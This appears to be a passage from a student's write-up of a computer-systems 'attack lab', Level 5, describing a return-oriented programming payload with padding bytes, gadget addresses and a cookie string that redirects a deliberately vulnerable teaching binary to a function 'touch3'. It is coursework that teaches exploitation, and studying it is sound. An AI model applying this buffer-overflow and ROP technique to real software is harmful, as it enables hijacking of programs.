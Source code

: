 Done! :tada:

## Finally, LEVEL 5

Let's make our tasks clear:

1. Save the cookie as a string
2. Load its address to $rdi
3. Jump to function `touch3`

Things we've known:

- My `cookie` is `0x110dfc17`, which is `31 31 30 64 66 63 31 37 00` in hex.

We need to carefully devise our exploit code:

```asm
/* 56 bytes of padding buffer */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
/* gadget code */  
d7 18 40 00 00 00 00 00 /* movq %rsp,%rax */
b4 18 40 00 00 00 00 00 /* movq %rax,%rdi */
9b 18 40 00 00 00 00 00 /* popq %rax */
48 00 00 00 00 00 00 00 /* $offset */
f8 18 40 00 00 00 00 00 /* 0x4018f0+2 bytes movl %eax,%edx */
05 19 40 00 00 00 00 00 /* 401904 movl %edx,%ecx */
67 19 40 00 00 00 00 00 /* movl %ecx,%esi */
c4 18 40 00 00 00 00 00 /* lea    (%rdi,%rsi,1),%rax */
a1 18 40 00 00 00 00 00 /* load address to %rdi movq %rax,%rdi */
f6 17 40 00 00 00 00 00 /* call touch3 */
31 31 30 64 66 63 31 37 00 /* cookie string */
```
